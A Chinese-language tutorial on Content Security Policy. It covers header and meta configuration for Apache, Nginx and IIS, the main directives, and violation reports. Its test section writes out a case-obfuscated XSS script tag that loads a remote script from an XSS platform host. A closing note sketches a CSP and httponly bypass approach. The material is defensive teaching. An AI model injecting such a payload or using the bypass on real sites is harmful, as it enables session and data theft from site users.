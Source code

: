 # 关于CSP
> 内容安全策略   (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。(摘自MDN web docs)

个人理解就是一种执行在浏览器端的页面安全策略，通过设置白名单允许页面内容来自指定的源，比如验证js脚本的来源来消除来自其他源的js脚本加载，这样就能防止xss远程加载js脚本。

# 相关配置
两种
## 直接在html页面中添加
示例：
```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
```
## 配置服务器，使其在响应头添加
- Apache
在VirtualHost的httpd.conf文件或者.htaccess文件中加入以下代码
```
Header set Content-Security-Policy "default-src 'self';"
```
- Nginx
在 server {}对象块中添加如下代码
```
add_header Content-Security-Policy "default-src 'self';";
```
- IIS 
web.config:中添加
```
<system.webServer>

  <httpProtocol>

    <customHeaders>

      <add name="Content-Security-Policy" value="default-src 'self';" />

    </customHeaders>

  </httpProtocol>

</system.webServer>
```
这样response 头里面就会有Content-Security-Policy: 标签
```
Content-Security-Policy: script-src 'self'; object-src 'none';style-src cdn.example.org third-party.org; child-src https:
```

# 关于csp的语法（简单介绍）

## 默认限制
> 什么都不会就直接上一个默认限制就行了,例如`Content-Security-Policy: default-src 'self'`限制资源只能从本地加载，不管是js，还是图片，都只能从本地加载

## 详细的资源加载限制(摘自[知乎:阿里聚安全](https://www.zhihu.com/question/21979782/answer/122682029))
> 可以对每种资源进行详细的加载限制
- `script-src` 外部脚本加载限制
- `style-src` 样式表
- `img-src` 图像
- `media-src` 音频视频的加载
- `font-src` 字体文件
- `object-src`插件（比如 Flash）
- `child-src`框架
- `frame-ancestors`嵌入的外部资源（比如\<frame\>、\<iframe\>、\<embed\>和\<applet\>）
- `connect-src`HTTP 连接（通过 XHR、WebSockets、EventSource等）
- `worker-src` worker脚本
- `manifest-src` manifest 文件
> url相关
- `frame-ancestors` 限制嵌入框架的网页
- `base-uri` 限制 `<base#href>`
- `form-action` 限制 `<form#action>`
> 其他其他安全相关
- `block-all-mixed-content`：HTTPS 网页不得加载 HTTP 资源（浏览器已经默认开启）
- `upgrade-insecure-requests`：自动将网页上所有加载外部资源的 HTTP 链接换成 HTTPS 协议 相关类似的还有[HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Securityv)
- `plugin-types`：限制可以使用的插件格式
- `sandbox`：浏览器行为的限制，比如不能有弹出窗口等。

## 将违例内容进行反馈报告
> 需要在CSP规则中写明report-uri策略，然后参数中有一个地址接收这些报告，报告格式是json
大概写法事这个样子拿apache配置为例
```
Header set Content-Security-Policy "default-src 'self';report-uri http://12.12.12.12:7777"
```
返回的json大概如下：
```
{
    "csp-report":{
        "document-uri":"http://hhhhh.com/",
        "referrer":"",
        "violated-directive":"script-src-elem",
        "effective-directive":"script-src-elem",
        "original-policy":"default-src 'self';report-uri http://12.12.12.12:7777",
        "disposition":"enforce",
        "blocked-uri":"https://xss.pt/XUXds",
        "status-code":200,
        "script-sample":""
    }
}
```

# 测试
- 配置虚拟主机
```
<VirtualHost 12.12.12.12:80>
  DocumentRoot "/var/www/ipv4"
  ServerName    hhhhh.com
</VirtualHost>
Header set Content-Security-Policy "default-src 'self';"
```
重启apache服务，查看响应头是否含有Content-Security-Policy： default-src 'self';
- 到页面中加载远程脚本
<sCRiPt sRC=https://xss.pt/XUXdj></sCrIpT>
- 然后这时浏览器就会报错
 比如chrome：
```
Refused to load the script 'https://xss.pt/XUXdj' because it violates the following Content Security Policy http://hhhhhh.com directive: "default-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'default-src' is used as a fallback.
```

相关文档：
- [MDN_web_docs-内容安全策略( CSP )](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
- [知乎-Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击？](https://www.zhihu.com/question/21979782)
- [MDN_web_docs-HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Security)
- [阮一峰-Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html)
- [先知社区-如何巧妙绕过csp](https://xz.aliyun.com/t/2438) 感觉这个绕过思路就是通过iframe加载一些没有csp的页面，然后再这些没有csp的页面加载js脚本然后攻击父窗口，然后里面还讲述了添加超大cookie绕过httponly